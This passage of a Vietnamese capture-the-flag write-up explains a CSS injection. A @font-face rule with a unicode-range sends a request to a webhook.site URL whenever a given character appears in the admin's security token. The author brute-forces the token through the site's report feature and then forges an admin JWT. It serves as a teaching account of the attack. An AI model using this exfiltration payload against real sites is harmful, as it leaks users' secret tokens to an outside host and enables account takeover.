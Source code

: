 ```?theme=white;}@font-face { font-family:winky;unicode-range:U%2b0070; src: url(%27https://webhook.site/db907999-deb1-4b62-97cc-ee2262610ba4/?winkynolose%27); } .SECURITY_TOKEN  span:nth-child(2){ font-family:winky;color:red;}```
    
Và chữ i đầu sẽ đổi màu và catch được webhook
    
![image](https://hackmd.io/_uploads/BkQC4lDI1e.png)

![image](https://hackmd.io/_uploads/BkM1rgPI1e.png)
    
Nhưng nếu mình check một unicode khác i thì sao
    
![image](https://hackmd.io/_uploads/B1HSBlvI1l.png)

Sẽ không catch được webhook thế thôi. Ok từ đây mình có ý tưởng brute force để leak security token của admin qua report
    
Script exploit của mình như sau
    
<details><summary>exploit.py</summary></details>

Webhook sau khi chạy exploit
    
![image](https://hackmd.io/_uploads/SybdLxv81e.png)
    
Sở dĩ cho sleep 10 giây vì web giới hạn 8 request mỗi phút. Sau khi brute tầm 3 tiếng thì mình lấy được SECURITY TOKEN là uixblodu4smzrlroagnm

Ok thì lúc này mình vào jwt.io để tạo thôi

![image](https://hackmd.io/_uploads/HJWyDePIyg.png)

Thay JWT của web và mình vào được admin and ye we finally capture the flag
    
![image](https://hackmd.io/_uploads/S1LfwgvUyx.png)
